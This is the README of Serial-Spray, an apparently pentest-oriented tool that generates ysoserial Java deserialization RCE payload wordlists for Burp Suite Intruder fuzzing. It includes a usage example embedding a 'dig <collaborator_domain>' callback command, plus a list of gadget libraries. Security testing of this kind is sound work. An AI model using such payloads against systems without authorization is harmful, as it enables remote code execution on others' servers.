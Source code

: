 <div align="center" style="font-family: monospace">
<h1>Serial-Spray</h1>

![alt text](https://github.com/ngimb64/Serial-Spray/blob/main/Serial_Spray.png?raw=true)<br>
&#9745;&#65039; Bandit verified &nbsp;|&nbsp; &#9745;&#65039; Synk verified &nbsp;|&nbsp; &#9745;&#65039; Pylint verified 9.84/10
<br><br>
</div>

## **Notice**
> This tool may be used for legal purposes only.<br>
> Users take full responsibility for any actions performed using this tool.<br>
> The author accepts no liability for damage caused by this tool.<br>
> If these terms are not acceptable to you, then do not use this tool.

## Purpose
Serial Spray is a tool that generates all the libraries in ysoserial with RCE capabilities and generates
input payload for each library with corresponding compression/encoding process specified in the output chain.
If the target is vulnerable to RCE Java serialization attack with common ysoserial library, this tool helps
automating crafting payload lists that can be fuzzed with the Burp Suite Intruder.

### License
The program is licensed under [GNU Public License v3.0](LICENSE.md)

### Contributions or Issues
[CONTRIBUTING](CONTRIBUTING.md)

## Installation
Start by running the venv and packages installation script:<br>
    `python3 setup.py venv`

Once installed, the venv can be activated from project root with:<br>
    `cd venv/bin; source activate; cd ../..`

## Usage example
`python3 serial_spray.py --out_file=/tmp/serial_wordlist.txt ./ysoserial.jar  'dig <collaborator_domain>' 'gzip|base64-url'`

**Note**: --out_file is an optional argument and if not used the default wordlist named "ss_wordlist.txt" will be generated in same directory

<br>

### Libraries to potentially add later (https://blog.afine.com/testing-and-exploiting-java-deserialization-in-2021-e762f3e43ca2)
- AspectJWeaver
- C3P0
- Clojure
- FileUpload1
- Jython1
- JRMPClient
- JRMPListener
- MyFaces2
- JSON1
- URLDNS
- Wicket